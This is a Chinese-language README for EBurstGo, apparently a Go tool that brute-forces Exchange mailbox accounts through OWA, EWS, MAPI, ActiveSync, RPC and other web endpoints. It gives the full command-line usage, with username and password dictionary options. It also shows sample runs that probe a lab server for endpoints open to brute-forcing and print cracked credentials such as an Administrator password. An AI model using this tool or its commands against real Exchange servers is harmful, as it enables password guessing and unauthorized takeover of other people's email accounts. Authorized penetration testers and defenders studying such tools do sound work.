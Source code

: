 # EBurstGo

利用 Exchange 服务器 Web 接口爆破邮箱账户

参考 [grayddq/EBurst](https://github.com/grayddq/EBurst) 项目使用 Go 语言重构

支持接口

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell
```

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	检测目标 Exchange 可用接口
  -debug
    	显示 Debug 信息
  -delay int
    	请求延时
  -domain string
    	AD 域名
  -mode string
    	指定 Exchange Web 接口
  -pass string
    	指定密码
  -passf string
    	密码字典
  -thread int
    	协程数量 (default 2)
  -url string
    	Exchange 服务器地址
  -user string
    	指定用户名
  -userf string
    	用户名字典
  -verbose
    	显示详细信息
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[*] 检测目标 Exchange 可用接口
[+] 存在 owa 接口 (/owa/auth.owa), 可以爆破
[+] 存在 powershell 接口 (/powershell), 可以爆破
[+] 存在 ecp 接口 (/owa/auth.owa), 可以爆破
[+] 存在 autodiscover 接口 (/autodiscover), 可以爆破
[+] 存在 mapi 接口 (/mapi), 可以爆破
[+] 存在 activesync 接口 (/Microsoft-Server-ActiveSync), 可以爆破
[+] 存在 oab 接口 (/oab), 可以爆破
[+] 存在 ews 接口 (/ews), 可以爆破
[+] 存在 rpc 接口 (/rpc), 可以爆破
```

brute

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews
[*] 使用 ews 接口爆破: https://192.168.30.11
[*] 用户名:7 密码:9 共计:63
[+] 成功: Administrator:abcd1234!@#$
[+] 成功: Alice:Alice123!
[+] 成功: Bob:Bob123!
[+] 成功: Marry:Marry123!
[*] 耗时: 3.031753209s
```

已知 bug:
- 在使用 ActiveSync 接口进行爆破时, 如果凭据正确, 服务器会在大约 20s 之后响应, 期间会阻塞当前协程 (不过好像是 ActiveSync 本身的特性)
- `/oab` 接口存在问题, 待解决
- `/powershell` 接口 (Kerberos 认证) 待支持